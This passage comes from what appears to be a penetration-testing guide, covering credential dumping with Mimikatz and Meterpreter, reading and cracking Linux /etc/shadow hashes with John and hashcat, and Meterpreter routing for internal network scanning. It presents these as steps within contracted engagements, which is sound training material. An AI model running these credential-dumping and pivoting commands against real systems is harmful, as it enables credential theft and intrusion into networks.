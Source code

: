 **Important:** Only create persistence when contractually allowed, and document it to ensure you can remove it later.

---

## 6) Dumping & cracking hashes

### Windows — Mimikatz (example flow)

* On target/VM with appropriate privileges:

  1. Upload `mimikatz.exe` (or use in-memory variant).
  2. `mimikatz.exe` → `privilege::debug` → `sekurlsa::logonpasswords` to dump plaintext creds and hashes.
* Meterpreter also has `hashdump` and `kiwi` extensions.

### Linux — /etc/shadow & hash extraction

```bash
# if you can read /etc/shadow:
sudo cat /etc/shadow > /tmp/shadow
# Extract user:hash lines and use John/hashcat
john --wordlist=/usr/share/wordlists/rockyou.txt shadow_hashes.txt
# or hashcat -m 1800 <hashfile> wordlist
```

### Crack with John / Hashcat

```bash
# John example (single file)
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt shadow_hashes.txt

# Hashcat example (GPU)
hashcat -m 1800 -a 0 hashes.txt /path/to/wordlist
```

> **Note:** Cracking is resource- and time-intensive. Use cloud/GPU or focused lists. Respect legal limits and the RoE.

---

## 7) Pivoting & internal network discovery

### Meterpreter routing (example)

```text
# in msfconsole
run autoroute -s 10.10.0.0/24   # add route for subnet via session
sessions -i <id>
# then from your attacker: nmap -sT -Pn -n -p1-65535 -oA internal_scan 10.10.0.0/24
```

### SOCKS proxy via Meterpreter / SSH
